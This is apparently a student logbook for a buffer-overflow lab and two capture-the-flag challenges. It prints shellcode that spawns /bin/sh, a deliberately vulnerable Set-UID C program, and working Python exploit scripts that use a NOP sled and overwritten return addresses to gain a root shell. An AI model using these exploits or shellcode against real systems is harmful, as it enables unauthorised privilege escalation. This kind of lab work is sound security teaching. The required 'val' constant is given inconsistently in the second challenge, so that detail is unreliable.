

# LOGBOOK 5
## Buffer Overflow Attack Lab (Set-UID Version)

## 2 Environment Setup
### 2.1 Turning Off Countermeasures
Address space randomization 
Configuring /bin/sh.


Fig 1. Turning Off Countermeasures

StackGuard and Non-Executable Stack

## 3 Task 1: Getting Familiar with Shellcode
### 3.1 The C Version of Shellcode
Open a text editor, paste the code below and save it to a file with a .c extension, for example 'shell_open.c’
```c
#include <stdio.h>

int main() {
	char *name[2];
	name[0] = “/bin/sh”;
	name[1] = NULL;
	execve(name[0], name, NULL);
}

```
In the terminal, navigate to the directory where you saved the file. Use the cd command to do this
Compile the program using the C compiler (usually gcc)
Execute the program


Fig 2. The C Version of Shellcode

This will run the program, which will open a new shell in the same directory it was run from.
### 3.2 32-bit Shellcode 
```
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp ; ebx --> "/bin//sh": execve()’s 1st argument
; Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()’s 2nd argument
; For environment variable
xor edx, edx ; edx = 0: execve()’s 3rd argument
; Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()’s system call number
int 0x80
```
In this task we just try to understand how the above shellcode works and basically invokes the execve() system call to execute /bin/sh.
### 3.3 64-Bit Shellcode
```assembly
xor rdx, rdx ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’ ; the command we want to run
push rax ;
mov rdi, rsp ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx ; argv[1] = 0
push rdi ; argv[0] --> "/bin//sh"
mov rsi, rsp ; rsi --> argv[]: execve()’s 2nd argument
xor rax, rax
mov al, 0x3b ; execve()’s system call number
syscall
```

In the same way we try to understand how the 64-bit shellcode works.

### 3.4 Task: Invoking the Shellcode

First we open the terminal in the folder where the call_shellcode.c file is located
We then compile the file with the help of the Makefile present in this folder
Then we execute the a32.out file and the a64.out file


Fig 3. Invoking the Shellcode

Both generate a shellcode.

## 4 Task 2: Understanding the Vulnerable Program

The program stack.c has a buffer-overflow vulnerability, and we exploit this vulnerability and gain the root privilege.


```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
int bof(char *str)
{
char buffer[BUF_SIZE];
/* The following statement has a buffer overflow problem */
strcpy(buffer, str);
return 1;
}
int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
}
```
Compile the above vulnerable program, do not forget to turn off the StackGuard and the non-executable stack protections using the -fno-stack-protector and "-z execstack" options.
Make the program a root-owned Set-UID program.
Change the ownership of the program to root.
Change the permission to 4755 to enable the Set-UID bit.


Fig 4. Understanding the Vulnerable Program

First, we analyze the code of a program with a buffer overflow vulnerability. We observe that it attempts to copy a character array potentially up to 517 bytes into a buffer with a maximum size of 100 bytes. Since the strcpy function does not check buffer limits, this results in an overflow occurrence.


## Task 3: Launching an Attack on a 32-bit Program (Level 1)

The first step involved creating an empty file named `badfile`, which can be accomplished using the `touch badfile` command. Next, we initiated debugging on "stack-L1-dbg," as depicted below:


Fig 5. Debugging Initiation

We used the commands `p $ebp` and `p &buffer` to obtain the values of ebp and the buffer address, as shown below:


Fig 6. Obtaining ebp Value and Buffer Address

As observed, the difference between these values equals `0x6C`, which translates to 108 in decimal. To leverage this difference in our favor, we made changes to `exploit.py`:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Place the shellcode within the payload
start = 517 - len(shellcode)
print(start)
content[start:start + len(shellcode)] = shellcode

# Determine the return address value
# and embed it within the payload
ret    = 0xffffcb1c + start
offset = (0xffffcb88 - 0xffffcb1c) + 4

L = 4     # Use 4 for 32-bit addresses and 8 for 64-bit addresses
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- Firstly, we updated the shellcode to `"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"`, which allows root prompt access without any permissions.

- Next, we adjusted the value of `start` to `start = 517 - len(shellcode)` to account for the input size minus the length of the code we are appending at the end.

- The subsequent step involved updating `ret` and `offset` as follows:
	```python
	ret    = 0xffffcb1c + start
	offset = (0xffffcb88 - 0xffffcb1c) + 4
	```
	`ret` corresponds to the buffer address (as obtained previously), and `offset` represents the difference between the ebp value and the buffer address, plus four. This value should be 112 because, as mentioned earlier, the difference between them is 108 in decimal.

Upon running `stack-L1`, we gained root-level command line access:


Fig.7 Got access to command line

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)

Debbuging `stack-L2-dbg` we got the buffer address: `0xffffcb18`. So, the code looks like this:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)
print(start)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcb18 + start

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(112, 212, L):
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- Offset is being between `112` and `212` because we know that the buffer size is something between 100 and 200.


Upon running `stack-L2`, we gained root-level command line access:


Fig.8 Got access to command line

## CTF Week #5 (Buffer Overflow)

### Challenge 1

Initially, we explore the files provided on the CTF platform, which are the same as those running on the server at port 4003.

Using the checksec command, we verify that the program (compiled main.c) has an x86 architecture, its binary is not randomized, and there are no protections for the return address using canaries or stack execution protections.


Fig1. Checks the security settings of a binary program

Afterward, we evaluated the operation of the main.c code. We observed that there is an allocation of 8 bytes of memory for the meme_file file name and 20 bytes for the user's response buffer.


Fig2. main.c

We also verified that the scanf function allows copying up to 40 bytes from stdin to the previously declared buffer. This allows for a buffer overflow to occur in situations where the input exceeds 32 bytes.

According to the stack's operation, the allocated memory region is contiguous and depends on the order of variable declarations. So, if we exceed the buffer's capacity, we end up overwriting the memory region dedicated to meme_file. Since the subsequent instructions in main.c display the contents of meme_file, it is in our interest to overwrite the name of the file to be read in order to display the content of flag.txt.


In the provided Python program, in the section where we inject content to the server, it was sufficient to write 32 characters followed by the name of the file we want to read.


Fig 3. Flag obtained 

### Challenge 2

Just like in the first challenge, we chose to check the protections of the program running on the server. The program still has an x86 architecture, its binary is not randomized, and there are no protections for the return address using canaries or stack-level execution protections.


Fig 1. “Checksec program” command

Afterward, we analyzed the main.c code. There is an allocation of 9 bytes of memory for the meme_file file name, 4 bytes for a value val, and 32 bytes for the user's response buffer.


Fig 2. Main.c file

We have verified that the technique to be used is similar to the previous challenge; however, the file's content was only displayed when the value in 'val' was 0xfefc2324.

The program's initial output is always the same and reveals the initial value of the declared 'val':



Fig 3. Program output

We reconstructed the bytes that should be present in 'val' to make it equal to 0xfefc2223 in the 'main.c' file.


Fig 4. Modified main.c file

In the Python program provided for the previous challenge, in the section where we inject content into the server, it was sufficient to write 32 characters followed by the new value of 'val' and the name of the file we want to read.


Fig 5. Create exploit-example.py program changing the sendline function parameter

When executed, we are able to access the contents of the file flag.txt and the challenge flag.


Fig 6. Obtain the flag 
